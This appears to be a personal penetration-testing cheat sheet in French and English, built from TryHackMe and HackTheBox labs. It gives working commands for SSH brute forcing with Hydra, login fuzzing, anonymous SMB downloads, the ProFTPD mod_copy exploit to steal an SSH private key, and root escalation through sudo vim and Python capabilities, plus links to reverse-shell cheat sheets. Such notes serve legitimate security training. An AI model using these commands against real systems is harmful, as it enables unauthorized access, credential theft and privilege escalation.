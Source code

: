 # ![](img/pentest_25.svg) Pentest

## Pentest AD
[Pentest AD MAP](https://www.xmind.net/m/5dypm8/)

## Enumerate local information from a Linux host

[LinEnum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)
## Outils
### Gobuster

Source : [gobuster](https://www.le-hacking.fr/brute-force-url-gobuster/)

gobuster -h : ```$ gobuster dir -u http://[adresse IP]:[Port] -w [wordlists]```

Exemples :
<br/>```./gobuster dir -u http://10.10.52.129/ -w /usr/share/wfuzz/wordlist/general/common.txt```

### John2ripper

```$ john-the-ripper --wordlist=Outils/wordlist/rockyou.txt id_rsa_basic_hash.txt ```

Permet de retrouver la passphrase pour se connecter en ssh à un user particulier.

### Hydra 

-l = user
<br/>-L = userlist
<br/>-p = password
<br/>-P = passwordlist

```hydra -l test -P /home/petibonum/Outils/wordlist/rockyou.txt 10.10.11.100 ssh```

user = test
<br/>wordlist = rockyou.txt

[Source](https://linuxtrack.net/viewtopic.php?id=654)

### Fuzzing

```wfuzz -c -z file,<file> --sc 200 -d "username=<user>&password=FUZZ" http://<ip>/<path>/```
### ADB connect 

[Source](https://labs.f-secure.com/blog/hackin-around-the-christmas-tree/)
### SMB

Lets inspect one of the shares :
<br/>```smbclient //<ip>/anonymous```

You can recursively download the SMB share too. Submit the username and password as nothing.
<br/>```smbget -R smb://<ip>/anonymous```

### ProFTPD module mod_copy

Exemple : [Kenobi Room](https://tryhackme.com/room/kenobi)

Prérequis : port 21

    PORT   STATE SERVICE
    21/tcp open  ftp

    ┌──(root💀2d2359796bd4)-[/mnt/kenobiNFS]
    └─# nc 10.10.253.117 21
    220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.253.117]
    SITE CPFR /home/kenobi/.ssh/id_rsa
    350 File or directory exists, ready for destination name
    SITE CPTO /var/tmp/id_rsa
    250 Copy successful

    mkdir /mnt/<name_folder>
    sudo mount <ip_target_machine>:/var /mnt/<name_folder>
    ls -la /mnt/<name_folder>

    cp /mnt/<name_folder>/tmp/id_rsa .
    sudo chmod 600 id_rsa
    ssh -i id_rsa kenobi@10.10.253.117

[Source](http://www.proftpd.org/docs/contrib/mod_copy.html)

## Méthodes
### Escalade de privilège

Exemple : 
* N°1 : TryHackMe -> [SimpleCTF Room](https://tryhackme.com/room/simplectf)

    <br/>```$ sudo -l```
    <br/>ans : User mitch may run the following commands on Machine:
    <br/>ans : (root) NOPASSWD: /usr/bin/vim
    <br/>```$ sudo vim -c ':!/bin/sh'```
    <br/>```# ^[[2;2R^[]11;rgb:3030/0a0a/2424^G```
    <br/>ans : /bin/sh: 1: ot found
    <br/>ans : /bin/sh: 1: 2R: not found
    <br/>```# whoami```
    <br/>ans : root

* N°2 : TryHackMe -> [BasicPentesting Room](https://tryhackme.com/room/basicpentestingjt)
    <br/>```ssh -i /home/<user>/.ssh/id_rsa kay@<ip>```
    <br/> Cette ligne permet de se connecter en ssh à un user par l'intermédiaire d'un autre user présent sur la même machine.

* N°3 : HackTheBox -> [CAP Room](https://app.hackthebox.eu/machines/Cap)

    <br/>```nathan@cap:~$ getcap -r / 2>/dev/null```
    <br/>ans : /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
    <br/>ans : /usr/bin/ping = cap_net_raw+ep
    <br/>ans : /usr/bin/traceroute6.iputils = cap_net_raw+ep
    <br/>ans : /usr/bin/mtr-packet = cap_net_raw+ep
    <br/>ans : /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
    <br/>```nathan@cap:~$/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'```
    <br/>ans : root@cap:~#
    C'est bon, on est root sur la machine.

* N°4 : TryHackMe -> [Advent of Cyber 2020](https://tryhackme.com/room/adventofcyber2)
    <br/>```python -c 'import pty; pty.spawn("/bin/bash")'```
### Reverse Shell

[Reverse Shell examples](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

### Recherche FIND spécifique

Rechercher des fichiers avec l'autorisation SUID :
<br/>```find / -user root -perm /4000 2>/dev/null```
<br/>```find / -perm -u=s -type f 2>/dev/null```

### LinPEAS - Linux Privilege Escalation Awesome Script

[LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

    ```bash=
    git clone https://github.com/carlospolop/PEASS-ng.git
    wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh
    ```

### Outils d'encodage

[CyberChef](https://gchq.github.io/CyberChef/)

## Autres Sources

* [PHP Reverse Shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)
* [SUID vs CAPABILITIES](https://mn3m.info/posts/suid-vs-capabilities/)
* [Linux Privilege Escalation](https://int0x33.medium.com/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099)
* [Linux Privilege Escalation with Capabilities](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)
* [Reverse Shell - Synetis](https://www.synetis.com/etablir-un-reverse-shell-en-une-ligne/)
